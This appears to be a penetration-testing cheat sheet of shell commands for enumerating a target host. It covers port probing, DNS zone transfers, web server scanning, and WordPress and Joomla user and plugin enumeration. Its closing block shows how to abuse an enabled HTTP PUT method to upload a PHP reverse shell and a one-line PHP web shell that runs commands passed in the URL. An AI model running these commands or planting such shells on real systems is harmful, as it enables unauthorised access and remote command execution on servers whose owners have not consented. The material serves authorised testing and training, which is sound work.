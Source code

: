 ```
cadaver http://$IP
```
### Unknown ports
```
amap -d $IP 8000
```
netcat: makes connections to ports. Can echo strings or give shells:
```
nc -nv $IP 110
```
Try zone transfer for subdomains:
```
dig axfr @$IP hostname.box
dnsenum $IP
dnsrecon -d domain.com -t axfr```
### Port 80 - web server
    Navigate && robots.txt
    Headers
    Source Code
```
```bash
# Nikto
nikto -h http://$ip
```

```bash
# CMS Explorer
cms-explorer -url http://$IP -type [Drupal, WordPress, Joomla, Mambo]
```

```bash
# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://$IP
wpscan --url http://$IP --enumerate vp
wpscan --url http://$IP --enumerate vt
wpscan --url http://$IP --enumerate u
wpscan -e --url https://url.com

```

```bash
# Enum User:

for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}';done
```

```bash
# Joomscan
joomscan -u  http://$IP
joomscan -u  http://$IP --enumerate-components
```

```bash
# Get header
curl -i $IP

# Get options
curl -i -X OPTIONS $IP

	# With PUT option enabled:

	nmap -p 80 10.1.10.111 --script http-put --script-args http-put.url='/test/rootme.php',http-put.file='/root/php-reverse-shell.php'

	curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.1.10.111/test/cmd.php
```